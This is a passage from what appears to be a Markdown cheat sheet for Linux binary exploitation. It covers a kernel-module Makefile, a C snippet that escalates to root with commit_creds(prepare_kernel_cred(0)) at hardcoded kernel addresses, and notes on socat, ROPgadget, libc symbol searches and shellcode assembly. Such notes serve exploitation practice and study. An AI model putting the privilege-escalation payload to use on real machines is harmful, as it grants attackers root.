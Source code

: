 ``` bash
# e.g. cat /sys/module/MODULE_NAME/sections/.text - module memory address
```

<div class="spoiler"><div class="spoiler-title" markdown="1">
Compile kernel module (linux contains special Makefile for kernel modules compilation)
</div><div class="spoiler-text" markdown="1">

``` make
obj-m := MODULE_EXAMPLE.o

all:
    make -C "/lib/modules/`uname -r`/build" M=${PWD} modules

clean:
    make -C /lib/modules/`uname -r`/build M=${PWD} clean
```
</div></div>

<br>

<div class="spoiler"><div class="spoiler-title" markdown="1">

#### root privilege escalation snippet
</div><div class="spoiler-text" markdown="1">

``` cpp
/* Addresses from System.map (remember KASLR problem) */
#define COMMIT_CREDS_PTR	0xffffffff810a2840lu
#define PREPARE_KERNEL_CRED_PTR	0xffffffff810a2c30lu

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
{
	commit_creds(prepare_kernel_cred(0));
}
```

</div></div>



<br><br>

---
---
---

# Tools usage examples (cribs)

``` bash
socat TCP-LISTEN:7777,reuseaddr,fork EXEC:"./binary"

ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only 'pop|ret'

strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin"

objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep "__libc_system"

# compile assembler
nasm -f elf ./shellcode.asm && ld -melf_i386 -o shellcode shellcode.o
```
